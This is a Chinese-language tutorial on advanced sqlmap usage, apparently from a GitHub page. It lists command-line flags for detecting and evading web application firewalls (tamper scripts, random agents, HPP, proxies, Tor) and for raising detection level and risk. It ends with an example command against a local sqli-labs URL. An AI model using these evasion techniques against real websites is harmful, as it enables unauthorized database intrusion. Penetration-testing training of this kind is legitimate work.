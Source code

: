 # Sqlmap 的高级用法


Sqlmap 在默认情况下除了适用 CHAR() 函数防止出现单引号，没有对注入的数据进行修改。我们可以使用—tamper 参数对数据进行修改来绕过 WAF 等设备，其中的大部分脚本主要用正则模块替换攻击载荷字符编码的方式尝试绕过 WAF 的检测规则。Sqlmap 目前官方提供 53 个绕过脚本。

### 探测指定 URL 是否存在 WAF，并且绕过

```
--identify-waf   检测是否有WAF

#使用参数进行绕过
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过
--ignore-proxy    禁止使用系统的代理，直接连接进行注入
--flush-session   清空会话，重构注入
--hex 或者 --no-cast     进行字符码转换
--mobile          对移动端的服务器进行注入
--tor             匿名注入

```

### 指定脚本进行绕过 (—tamper)

有些时候网站会过滤掉各种字符，可以用 tamper 来解决（对付某些 waf 时也有成效）

```
sqlmap  --tamper=space2comment.py  
sqlmap  --tamper="space2comment.py,space2plus.py"  指定多个脚本进行过滤

```

过滤脚本在目录：**/usr/share/sqlmap/tamper**

![](https://p1.ssl.qhimg.com/t01565062aff86a2767.png)

### 探测等级和危险等级 (—level —risk)

Sqlmap 一共有 5 个探测等级，默认是 1。等级越高，说明探测时使用的 payload 也越多。其中 5 级的 payload 最多，会自动破解出 cookie、XFF 等头部注入。当然，等级越高，探测的时间也越慢。这个参数会影响测试的注入点，GET 和 POST 的数据都会进行测试，HTTP cookie 在 level 为 2 时就会测试，HTTP User-Agent/Referer 头在 level 为 3 时就会测试。在不确定哪个参数为注入点时，为了保证准确性，建议设置 level 为 5

sqlmap 一共有 3 个危险等级，也就是说你认为这个网站存在几级的危险等级。和探测等级一个意思，在不确定的情况下，建议设置为 3 级，—risk=3

sqlmap 使用的 payload 在目录：**/usr/share/sqlmap/xml/payloads**

![](https://p3.ssl.qhimg.com/t01086cd70c1873d39a.png)

```
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 


```
